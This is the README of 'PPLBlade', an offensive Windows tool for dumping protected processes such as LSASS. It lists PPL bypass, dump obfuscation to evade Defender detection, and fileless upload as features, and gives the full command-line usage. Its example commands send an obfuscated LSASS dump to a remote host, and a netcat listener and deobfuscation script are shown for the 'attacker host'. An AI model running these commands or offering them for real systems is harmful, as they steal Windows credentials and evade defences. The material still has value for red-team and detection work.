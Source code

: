 # PPLBlade
Protected Process Dumper Tool

Key functionalities:
1) Bypassing PPL protection
2) Obfuscating memory dump files to evade defender signature-based detection mechanisms
3) Uploading memory dump with RAW and SMB upload methods without dropping it onto the disk(fileless dump)

Overview of the techniques, used in this tool can be found here: https://tastypepperoni.medium.com/bypassing-defenders-lsass-dump-detection-and-ppl-protection-in-go-7dd85d9a32e6


```
Usage of PPLBlade.exe:
  -driver string
        Path where the driver file will be dropped (default "D:\\releasetest\\PPLBlade\\PPLBLADE.SYS")
  -dumpmode string
        Dump mode [local|network] (default "local")
  -dumpname string
        Name of the dump file (default "PPLBlade.dmp")
  -handle string
        Method to obtain target process handle [direct|procexp] (default "direct")
  -help
        Prints this help message
  -ip string
        IP of the remote server
  -key string
        XOR Key for obfuscation (default "PPLBlade")
  -mode string
        Kill or Dump process [dump|decrypt|cleanup|dothatlsassthing] (default "dump")
  -name string
        Process name of target process
  -network string
        Method for network transfer (default "raw")
  -obfuscate
        Obfuscate dump file
  -pass string
        SMB password
  -pid int
        PID of target process (prioritized over process name)
  -port int
        PORT on the remote server
  -quiet
        Quiet mode
  -service string
        Name of the service (default "PPLBlade")
  -share string
        share name
  -user string
        SMB username
```


**Examples:**

Basic POC that uses PROCEXP152.sys to dump lsass:

`PPLBlade.exe --mode dothatlsassthing`

Upload the obfuscated LSASS dump onto a remote location:

`PPLBlade.exe --mode dump --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234 --handle procexp --name lsass.exe`

Attacker host:
```
nc -lnp 1234 > lsass.dmp
python3 deobfuscate.py --dumpname lsass.dmp
```

